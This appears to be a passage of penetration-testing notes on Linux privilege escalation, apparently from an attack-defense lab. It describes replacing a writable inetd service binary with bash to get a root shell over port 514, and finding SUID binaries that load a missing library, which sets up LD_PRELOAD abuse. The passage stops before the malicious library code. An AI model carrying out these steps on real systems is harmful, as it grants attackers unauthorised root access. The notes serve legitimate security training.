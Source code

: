 

## inetd

`cat /etc/inetd.conf` Look for write permissions on any of the executables listed in this config file. If you have write permissions replace the executable i.e. cp /bin/bash /usr/sbin/in.rshd 

inetd will now serve the /bin/bash shell running with root privileges when we connect to the rshd default port 514: 

telnet remote\_ip\_address 514 

From &lt;[https://www.engetsu-consulting.com/tag/Linux-Privilege-Escalation](https://www.engetsu-consulting.com/tag/Linux-Privilege-Escalation)&gt;

## Dynamically Linked Shared Object Library

Find SUID or GUID  

`find / -perm -g=s -o -perm -u=s -type f 2>/dev/null` 

Find a executable which looks suspicious and shouldn't be there: 

```text
james@attackdefense:~$ find / -perm -u=s -type f 2>/dev/null 
/bin/umount 
/bin/mount 
/bin/su 
/usr/bin/passwd 
/usr/bin/chfn 
/usr/bin/gpasswd 
/usr/bin/newgrp 
/usr/bin/chsh 
/usr/local/bin/welcome <---- hmmm 
```

Trying to run the file: 

`james@attackdefense:~/.lib$ /usr/local/bin/welcome/usr/local/bin/welcome: symbol lookup error: /usr/local/bin/welcome: undefined symbol: greetings` 

Check what shared libraries are used: 

```text
james@attackdefense:~$ ldd /usr/local/bin/welcome 
        linux-vdso.so.1 (0x00007ffda84ad000) 
        libgreetings.so => not found 
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ff13ab2b000) 
        /lib64/ld-linux-x86-64.so.2 (0x00007ff13b11e000)
```

We will use LD\_PRELOAD  - LD\_PRELOAD is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library \(libc.so\) This is called preloading a library. 

First we will need to create a malicious file instead of the missing library 

use the SUID Shell code and compile the code 
